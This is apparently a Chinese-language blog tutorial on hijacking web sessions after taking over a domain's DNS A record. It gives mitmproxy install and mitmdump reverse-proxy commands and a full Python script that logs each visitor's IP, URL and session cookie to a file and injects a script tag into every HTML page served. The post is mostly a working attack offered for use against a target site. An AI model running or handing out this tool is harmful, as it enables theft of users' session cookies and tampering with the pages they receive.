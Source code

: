 ##0x01 介绍
这个一直觊觎很久了,原来F4ther演示的时候也想写一套Nginx反向代理表单劫持工具
后面看到3xp10it大佬介绍了就不想写了直接用就行了

本文记录一种在域名劫持后通过mitmproxy进行http会话劫持的利用脚本,该脚本通过mitmdump的反向代理工作模式进行流量劫持.

##0x02 操作
1.通过修改域名的A记录来进行域名劫持

2.在域名的新A记录主机上安装mitmproxy:pip3 install mitmproxy

3.在域名的新A记录主机上运行: mitmdump --set allow_remote=true -—listen-host 0.0.0.0 -s xdomain.py --mode reverse:http://xxx.xxx.xxx:80 -p 80

        --listen-host代表本地监听ip
        --mode reverse代表以反向代理的模式进行工作
        --set allow_remote=true代表支持客户端访问的时候是通过代理访问的
        运行时需要需要上面命令中的http://xxx.xxx.xxx:80为目标网站地址,且修改下面代码中的http://xxx.xxx.xxx为目标网站地址

具体实现脚本
import os
import re
import chardet


def request(flow):
    # url=flow.request.url
    # flow.request.headers['User-Agent']='xxx'
    pass


def response(flow):
    url = flow.request.url
    print(url)
    if "http://xxx.xxx.xxx" in url:
        content = flow.response.content
        cookie = flow.request.headers['Cookie']
        ip = str(flow.client_conn.ip_address).split(":")[0]
        bytes_encoding = chardet.detect(content)['encoding']
        origin_html = content.decode(encoding=bytes_encoding, errors="ignore")
        if "</html>" in origin_html:
            insert_xss = '''<script>alert("you're hacked")</script></html>'''
            new_html = origin_html.replace("</html>", insert_xss)
            flow.response.text = new_html
        return_value = {'ip': ip, 'url': url, 'cookie': cookie}
        with open("mitm.log", "a+") as f:
            f.write(str(return_value) + "\n")
